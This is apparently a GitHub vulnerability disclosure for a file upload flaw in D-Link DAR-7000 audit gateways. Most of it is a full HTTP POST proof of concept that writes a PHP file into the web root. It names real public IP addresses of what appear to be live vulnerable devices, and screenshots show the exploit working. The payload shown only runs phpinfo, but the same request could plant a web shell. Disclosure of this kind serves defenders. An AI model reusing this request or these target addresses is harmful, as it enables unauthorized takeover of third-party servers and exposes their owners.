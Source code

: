 

The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.


official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/Tool/uploadfile.php

Ip：https://60.22.74.195:8443/

poc:
```
POST /Tool/uploadfile.php? HTTP/1.1
Host: 113.140.35.82:8443
Cookie: PHPSESSID=25c62fc086a2f7777b8e0dd04d2a75d1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------886123294864872782496578758
Content-Length: 391
Origin: https://113.140.35.82:8443
Referer: https://113.140.35.82:8443/Tool/uploadfile.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="txt_path"

/usr/hddocs/nsg/home/2.php
-----------------------------886123294864872782496578758—
```
<img width="726" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/44ebeb40-f974-4baa-90bd-b569cf12ee9b">

https://60.22.74.195:8443/home/2.php 

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/f4e81380-cfbf-4f82-a8d2-e84d5c4285f8">





